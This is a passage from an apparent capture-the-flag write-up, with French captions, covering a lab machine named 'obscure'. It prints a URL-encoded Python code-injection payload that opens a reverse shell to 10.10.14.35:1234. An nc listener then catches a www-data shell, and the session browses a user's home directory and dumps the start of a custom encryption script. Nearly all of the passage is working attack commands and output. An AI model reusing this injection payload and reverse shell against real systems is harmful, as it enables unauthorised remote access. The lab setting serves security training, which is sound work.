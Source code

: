 lancer nc dans une autre fenetre

~~~
root@Host-001:~# python3 payloadObscurity.py 
payload
http://10.10.10.168:8080/5%27%0Aimport%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%2210.10.14.35%22%2C1234%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3Bos.dup2%28s.fileno%28%29%2C1%29%3Bos.dup2%28s.fileno%28%29%2C2%29%3Bp%3Dsubprocess.call%28%5B%22/bin/bash%22%2C%22-i%22%5D%29%0Aa%3D%27
~~~
~~~
root@Host-001:~# nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.14.35] from (UNKNOWN) [10.10.10.168] 43908
www-data@obscure:/$ cd /home
cd /home
www-data@obscure:/home$ ls
ls
robert
www-data@obscure:/home$ cd robert
cd robert
www-data@obscure:/home/robert$ ls -la
ls -la
total 60
drwxr-xr-x 7 robert robert 4096 Dec  2 09:53 .
drwxr-xr-x 3 root   root   4096 Sep 24 22:09 ..
lrwxrwxrwx 1 robert robert    9 Sep 28 23:28 .bash_history -> /dev/null
-rw-r--r-- 1 robert robert  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 robert robert 3771 Apr  4  2018 .bashrc
drwxr-xr-x 2 root   root   4096 Dec  2 09:47 BetterSSH
drwx------ 2 robert robert 4096 Oct  3 16:02 .cache
-rw-rw-r-- 1 robert robert   94 Sep 26 23:08 check.txt
drwxr-x--- 3 robert robert 4096 Dec  2 09:53 .config
drwx------ 3 robert robert 4096 Oct  3 22:42 .gnupg
drwxrwxr-x 3 robert robert 4096 Oct  3 16:34 .local
-rw-rw-r-- 1 robert robert  185 Oct  4 15:01 out.txt
-rw-rw-r-- 1 robert robert   27 Oct  4 15:01 passwordreminder.txt
-rw-r--r-- 1 robert robert  807 Apr  4  2018 .profile
-rwxrwxr-x 1 robert robert 2514 Oct  4 14:55 SuperSecureCrypt.py
-rwx------ 1 robert robert   33 Sep 25 14:12 user.txt
www-data@obscure:/home/robert$ cat SuperSecureCrypt.py
cat SuperSecureCrypt.py
import sys
import argparse

def encrypt(text, key):
    keylen = len(key)
    keyPos = 0
    encrypted = ""
    for x in text:
        keyChr = key[keyPos]
        newChr = ord(x)
        newChr = chr((newChr + ord(keyChr)) % 255)
        encrypted += newChr
        keyPos += 1
        keyPos = keyPos % keylen
    return encrypted

def decrypt(text, key):
    keylen = len(key)
    keyPos = 0
    decrypted = ""
    for x in text:
        keyChr = key[keyPos]
        newChr = ord(x)
~~~